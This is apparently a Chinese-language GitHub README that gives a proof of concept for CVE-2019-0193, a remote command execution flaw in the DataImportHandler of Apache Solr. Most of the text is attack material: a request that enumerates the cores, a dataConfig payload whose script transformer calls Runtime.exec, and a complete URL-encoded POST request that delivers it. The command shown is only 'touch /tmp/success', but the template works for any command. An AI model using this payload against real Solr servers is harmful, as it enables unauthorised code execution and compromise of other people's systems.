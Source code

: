 # CVE-2019-0193

## 概述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## 

获取 core 信息

	http://ip:8983/solr/admin/cores


	{
	  "responseHeader":{
	    "status":0,
	    "QTime":0},
	  "initFailures":{},
	  "status":{
	    "test":{
	      "name":"test",
	      "instanceDir":"/var/solr/data/test",
	      "dataDir":"/var/solr/data/test/data/",
	      "config":"solrconfig.xml",
	      "schema":"managed-schema",
	      "startTime":"2020-11-02T05:36:14.741Z",
	      "uptime":991993,
	      "index":{
	        "numDocs":0,
	        "maxDoc":0,
	        "deletedDocs":0,
	        "indexHeapUsageBytes":0,
	        "version":2,
	        "segmentCount":0,
	        "current":true,
	        "hasDeletions":false,
	        "directory":"org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@/var/solr/data/test/data/index lockFactory=org.apache.lucene.store.NativeFSLockFactory@2ffa7f89; maxCacheMB=48.0 maxMergeSizeMB=4.0)",
	        "segmentsFile":"segments_1",
	        "segmentsFileSizeInBytes":69,
	        "userData":{},
	        "sizeInBytes":69,
	        "size":"69 bytes"}}}}


根据core信息中的name构造payload:

poc:


	<dataConfig>
	  <dataSource type="URLDataSource"/>
	  <script><![CDATA[
	          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
	          }
	  ]]></script>
	  <document>
	    <entity name="stackoverflow"
	            url="https://stackoverflow.com/feeds/tag/solr"
	            processor="XPathEntityProcessor"
	            forEach="/feed"
	            transformer="script:poc" />
	  </document>
	</dataConfig>


参数 debug=true

发送请求：

	POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
	Host: localhost:8983
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
	Accept: application/json, text/plain, */*
	Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
	Accept-Encoding: gzip, deflate
	Content-type: application/x-www-form-urlencoded
	X-Requested-With: XMLHttpRequest
	Content-Length: 679
	Connection: close
	Referer: http://localhost:8983/solr/
	Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr
	
	command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&name=dataimport&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E


也可以不加url 编码。

![](1.png)